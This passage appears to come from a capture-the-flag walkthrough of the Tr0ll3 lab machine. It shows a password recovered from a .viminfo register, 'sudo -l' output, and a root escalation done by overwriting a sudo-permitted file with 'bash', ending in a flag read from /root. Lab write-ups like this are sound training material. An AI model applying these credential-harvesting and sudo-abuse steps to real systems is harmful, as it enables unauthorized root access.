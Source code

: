 ```
# Expression History (newest to oldest):

# Input Line History (newest to oldest):

# Input Line History (newest to oldest):

# Registers:
""1     LINE    0
        passwd
"2      LINE    0
        B^slc8I$
"3      LINE    0
        passswd  

# File marks:

# Jumplist (newest first):

# History of marks within files (newest to oldest):

        +       25      62
```

查看sudo列表

```
maleus@Tr0ll3:~$ sudo -l
[sudo] password for maleus: 
Matching Defaults entries for maleus on Tr0ll3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User maleus may run the following commands on Tr0ll3:
    (root) /home/maleus/dont_even_bother
```

```
maleus@Tr0ll3:~$ echo "bash" > dont_even_bother
maleus@Tr0ll3:~$ sudo ./dont_even_bother
root@Tr0ll3:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Tr0ll3:~# cat /root/flag.txt 
You are truly a Jedi!

Twitter Proof:

Pr00fThatTh3L33tHax0rG0tTheFl@g!!

@Maleus21

```
